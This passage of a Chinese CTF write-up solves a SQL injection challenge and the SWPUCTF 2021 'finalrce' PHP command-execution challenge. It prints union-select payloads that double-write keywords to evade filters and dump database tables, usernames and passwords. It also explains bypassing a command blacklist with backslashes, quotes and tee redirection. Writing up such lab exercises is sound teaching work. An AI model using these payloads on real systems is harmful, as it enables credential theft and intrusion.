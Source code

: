 <font style="color:#000000;">成功了，之后就是找他的数据库，发现2和3这两个位置可以注入，回显点位是2，3</font>

<font style="color:#000000;">接着找它的数据库，还是联合注入</font>

<font style="color:#000000;">用户名：1'ununionion seselectlect 1,database(),3#   密码是：1</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736572258483-0c5b5411-32b5-4219-9ffc-5b2c5c2c0039.png)

<font style="color:#000000;">geek应该就是数据库名，接下来就是找表名了，还是联合注入，from和information中的or要双写</font>

<font style="color:#000000;">用户名为1' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='geek'#</font>

<font style="color:#000000;">密码为1</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736590234712-160235b2-a75f-492c-b189-bf1afc6962d5.png)

<font style="color:#000000;">所以就找到表了，表名为：b4bsql,geekuser</font>

<font style="color:#000000;">接着就是查询表中的内容了，还是联合注入 </font>

<font style="color:#000000;">用户名：1' uniunionon selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'# </font>

<font style="color:#000000;">密码：1</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736593552367-1e0e30ff-88ce-49ec-9d4e-d609bf518bd6.png)

<font style="color:#000000;">得到该表中的字段信息，查询username和password的内容，注意password中间or需要双写</font>

<font style="color:#000000;">用户名：1' uniunionon selselectect 1,group_concat(username),group_concat(passwoorrd) frfromom geek.b4bsql #</font>

<font style="color:#000000;">密码：1</font>![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736594191337-c114b125-5926-4d37-ac5b-fda45e0a78b5.png)

<font style="color:#000000;">拿到flag，结束游戏</font>

<h2 id="y6Muo"><font style="color:#000000;">（二）[SWPUCTF 2021 新生赛]finalrce</font></h2>
![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736597845911-dd49e667-6fd9-4238-a911-164066019025.png)

<font style="color:#000000;">题目是一段PHP代码，需要绕过正则表达式。</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736597837872-ce7eb4e7-b15e-4013-ad39-3ab3560043b2.png)<font style="color:#000000;">cat命令最常见的用法查看文本文件的内容。例如，查看一个名为 file.txt的文件，可以运行以下命令：</font>

<font style="color:#000000;">+cat file.txt</font>

<font style="color:#000000;">先看if里的内容，preg_match 函数用于执行一个正则表达式匹配，末尾的/i说明</font><font style="color:#000000;"> 匹配不分大小写。读了代码后发现反斜杠和单引号都没有被注释掉，那么我们就可以利用这一点来绕过被禁止掉的命令当正则表达式没有过滤掉反斜杠或者单引号或者双引号，那么可以使用单引号或者双引号包裹命令（如：ls cat等）任意一个字符，只要他们不是一个整体就行，或者使用反斜杠插入到命令里面（如：ca\t  c\at等）即可实现绕过可以看到的是没有过滤”|“这个符号，然后exec执行是没有</font><font style="color:#000000;">回显</font><font style="color:#000000;">的.</font>

<font style="color:#000000;">这个题目是需要用linux的一个命令，”tee“将想要执行的命令写入到一个文件里面，然后再去访问这个文件，以此来执行这个命令</font><font style="color:#000000;">，简单来说，就是</font><font style="color:#000000;">从标准输入读取，再写入标准输出和文件。</font>

<font style="color:#000000;">所以：tee 1.txt：将输出复制一份并输出到终端窗口以及写入到名为1.txt的文件中</font>![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1736599306986-1873fd03-6d89-4152-9ca0-aaa34e757fc6.png)

<font style="color:#000000;">输出重定向之后，看到有flag</font>

